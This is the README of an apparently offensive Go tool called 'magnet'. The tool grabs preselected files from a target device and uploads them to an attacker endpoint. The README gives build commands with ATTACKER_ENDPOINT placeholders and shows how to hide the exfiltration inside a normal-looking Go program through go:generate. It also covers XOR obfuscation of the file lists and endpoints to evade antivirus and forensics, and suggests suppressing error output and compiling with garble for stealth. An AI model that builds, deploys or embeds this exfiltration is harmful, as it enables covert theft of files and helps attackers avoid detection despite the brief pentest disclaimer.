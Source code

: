 <div align=center>
  <h1>magnet</h1>
  <pre>🧲⚡
  Grab interesting files from target</strong><br>

  <b><i>Cross-platform</i></b>
  <b><i>Stealth</i></b>
  <b><i>Portable</i></b>  
  </pre>
</div>

The library is built to fetch predefined files of interest from a remote device. It assumes that an HTTP endpoint is listening when the program is launched.

<sup><i>For educational purpose only or during pentest assessment with prior permission</i></sup>

## Usage

All the work is made **At compilation time**, you need to specify:
* ***The remote endpoint***, where juicy files are uploaded
* ***The Juicy files***, list of files you want to grab
* ***The target os***, to fit the target (between: `windows`, `darwin`, `linux`)

```shell
export KEY=[YOUR_KEY]
export FILES=[FILENAME]
export ENDPOINT[ATTACKER_ENDPOINT]
export TARGET_OS=[TARGET_OS]
```

Then, the program execution on target will stealthy provide you the files you ask for.

You have 2 possibilities:
* [Hide exfiltration in your program](#-inject-magnet-in-your-go-program)
* [Use the standalone `magnet` executable](#-standalone)

### 🥷 Inject `magnet` in your Go program

Considering the simple `hello world` golang program. Add the following comment `//go:generate` to stealthy inject magnet code:
```golang
package main

import "fmt"

func main() {
    fmt.Println("hello world")
    //go:generate samplegentool arg1 "multiword arg"
}
```
### ⚡ Standalone


To build `magnet` binary in one step:
```shell
# build lobfuscator
make build.lobfuscator
# put lobfuscator in your PATH and then:
./build.sh $TARGET_OS $FILES $ENDPOINT $KEY
```


### Obfuscation/Encryption

To avoid detection systems, as we are seeking for sensitive files, **the different files we want to grab must not be in clear text within the binary** . Hence it used basic encryption with the key to decrypt embedded in binary. *(The aim is only to avoid AV and Detection system not to have strong encryption scheme)*

The same thing is made for the remote endpoints, to make the forensic analysis harder.

`lobfuscator` is the simple tool to perform the XOR encryption/decryption.

An exemple to build the obfuscated list:
```shell
cat [FILE] | lobfuscator $KEY > obfuscated.txt
# decrypt: cat obfuscated.txt | lobfuscator -d $KEY
```

## Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario (for standalone use)
* To enhance the binary obfuscation use [`garble`](https://github.com/burrowers/garble) to compile `magnet` instead of `go`(adapt `build.sh` consequently)

## To do

* Handle directories
* Use other protocols to send files (ICMP, DNS, SMTP, etc...)
